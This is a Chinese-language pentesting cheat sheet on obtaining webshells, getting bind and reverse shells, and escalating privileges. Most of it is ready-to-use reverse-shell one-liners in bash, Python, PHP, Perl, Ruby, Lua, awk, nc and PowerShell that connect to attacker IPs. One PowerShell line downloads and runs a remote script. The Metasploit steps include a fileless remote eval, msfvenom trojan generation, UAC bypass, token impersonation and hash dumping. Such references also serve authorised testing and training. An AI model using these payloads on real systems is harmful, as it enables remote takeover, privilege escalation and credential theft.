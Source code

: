 shell
========================================

webshell获取常规方法
----------------------------------------

通过CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过CMS获取Webshell的思路通常分为两类： 一类是针对特定版本的具体漏洞进行利用，完成如远程执行命令、数据库注入等操作；另一类则是通过弱口令或者漏洞利用进后台管理界面，然后通过上传插件、修改模板文件等方式上传木马脚本。

通过非CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用文件上传
- 利用SQL注入

其他获取Webshell方法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Phpmyadmin
- Tomcat
- Weblogic
- JBoss

webshell升级为交互式shell
----------------------------------------

为什么需要交互式shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Webshell 里经常会看到一些 命令执行, 虚拟终端 之类的可以执行系统命令的功能，原理就是通过脚本语言自身提供的 system, popen, shell_exec 之类的函数来完成执行命令的目的。这种方式不支持上下文，并且在面对一些需要用户交互的命令时，就显得很鸡肋了。

比如说passwd命令:
	- root@localhost:/# passwd root
	- Enter new UNIX password: [这里需要用户按下键盘]
	- Retype new UNIX password: [这里需要用户按下键盘]

存在问题：
	- 无法使用vim等文本编辑器
	- 不能补全
	- 不能su
	- 没有向上箭头使用历史

正向shell
----------------------------------------

nc正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``nc -l 1567 -e /bin/bash -i`` 
	``nc -lvp 1567 -e c:\windows\system32\cmd.exe`` 
- client
	``nc 172.31.100.7 1567`` 

socat正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``socat TCP-LISTEN:12345 EXEC:/bin/bash`` 
- client
	``nc 192.168.x.x 12345`` 


反弹shell
----------------------------------------

什么是反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

为什么需要反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通常用于被控端因防火墙受限、权限不足、端口被占用等情形。
举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

- 如下情况：
	- 1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。
	- 2.目标机器的ip动态改变，你不能持续控制。
	- 3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
	- 4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

	那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

常用反弹shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 各种shell

::

	注：需区分服务器的sh类型，可使用which sh查询。
	不同的sh，影响不同的反向shell是否可以成功。

- bash反向shell

::

	vps：nc -lvp 4444
	bash -i >& /dev/tcp/192.168.174.130/4444 0>&1

- python反向shell

::

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

- php反向shell

::

	php -r '$sock=fsockopen("192.168.174.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
	php -r '$sock=fsockopen("172.16.100.105",4444);$descriptorspec = array(0 => $sock,1 => $sock,2 => $sock);$process = proc_open('/bin/sh', $descriptorspec, $pipes);proc_close($process);'

- Perl反向shell 

::

	perl -e 'use Socket;$i="192.168.174.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	linux：perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	windwos：perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->f

- socat反向shell

::

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.130:4444

- Ruby反向shell

::

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.174.130","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	linux：ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	windows：ruby -rsocket -e 'c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

- Lua反向shell

::

	lua -e "require('socket');require('os');t=socket.tcp();t:connect('192。168.174.130','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"

- Awk反向shell

::

	awk 'BEGIN{s="/inet/tcp/0/192.168.174.130/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'

- exec反向shell 

::

	exec 5<>/dev/tcp/192.168.174.130/4444 cat <&5 | while read line; do $line 2>&5 >&5; done
	0<&196;exec 196<>/dev/tcp/192.168.174.130/4444; sh <&196>&196 2>&196

- nc反向shell

::

	server(vps)：nc -lvp 1567
	client：nc 172.31.100.7 1567 -e /bin/bash
	client：nc 192.168.174.130 9999 -e c:\windows\system32\cmd.exe
	client：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.174.130 4444 >/tmp/f

- powershell反弹shell

::

	apt-get install powshell
	powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.174.130 -port 4444

shell升级为交互式shell
-----------------------------------------

- 半交互式shell

::

	通常我们nc获得的shell都是不完全shell，需要通过Python的pty转换为半交互式shell。 
	python -c "import pty;pty.spawn('/bin/bash')"
	可以运行su命令。

- 完全交互式Shell

::

	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z
	$ stty raw -echo
	$ fg
	$ reset
	$ export SHELL=bash
	//$ export TERM=xterm-256color


shell升级为meterpreter
-----------------------------------------
- web_delivery模块
	背景：
		目标设备存在远程文件包含漏洞或者命令注入漏洞，想在目标设备上加载webshell，但不想在目标设备硬盘上留下任何webshell文件信息.
	
	::
	
		使用步骤:
		1、use exploit/multi/script/web_delivery
		2、set target PHP   ====>因为一般web平台默认支持PHP，所以我们选择兼容性最好的PHP做webshell
		3、set payload php/meterpreter/reverse_tcp    ====>选择php写的meterpreter
		4、set lhost 172.20.163.160
		5、set lport 1111
		6、run

	|shell1|
	
	利用方式：
		命令注入漏洞： ``php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.20.163.160:1111/OgsOFaj3yKH'));"`` 
		远程文件包含漏洞： ``http://172.20.163.160:1111/OgsOFaj3yKH`` 

meterpreter提权
-----------------------------------------
- 前提
	+ 生成木马
		``msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.11.2 lport=4444 -f exe -o /tmp/hack.exe``
		
		::
		
			默认为32位,如果靶机为64位需要更改为:wiondows/x64/meterpreter/reverse_tcp
			反弹到的监听端地址为172.16.11.2，监听端口为4444，文件输出格式为exe并保存到路径/tmp/hack.exe
	+ 执行监听
		::
		
			use exploit/multi/handler
			set payload windows/meterpreter/reverse_tcp
			set LHOST 172.16.11.2
			show options
			exploit
	+ 上传并执行木马
		此处假设我们通过一系列的渗透测试得到了目标机器的webshell，并上传生成的木马hack.exe，执行成功。
			
- getsystem提权
- exp提权
	::
	
		meterpreter > background //先后台运行会话[*] Backgrounding session 1…
		msf > use post/windows/escalate/ms10_073_kbdlayout
		msf > show options
		msf > set session 1 //设置要使用的会话
		msf post(ms10_073_kbdlayout) > exploit
		
		或直接用一下命令：
		meterpreter > run post/windows/escalate/ms10_073_kbdlayout
- 盗取令牌
	::
	
		meterpreter > use incognito //进入这个模块
		meterpreter > list_tokens –u //查看存在的令牌
		meterpreter > impersonate_token NT AUTXXXX\SYSTEM //令牌是DelegationTokens一列，getuid查看，两个斜杠
		注意：只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌，一般大多数的服务型账户（IIS、MSSQL等）有
		这个权限，大多数用户级的账户没有这个权限。一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权
		限的，建好的账户没有这个权限。使用菜刀（IIS服务器权限）反弹meterpreter是服务型权限。
- Bypassuac
	::
	
		msf > use exploit/windows/local/bypassuac //32位与64位一样，其他几个模块也一样
		msf > show options
		msf > set session 4
		msf > run //成功后会返回一个新的session，进入新会话，发现权限没变，使用getsystem即可完成提权
- Hash
	``meterpreter > run post/windows/gather/smart_hashdump`` 


.. |shell1| image:: ../images/shell1.png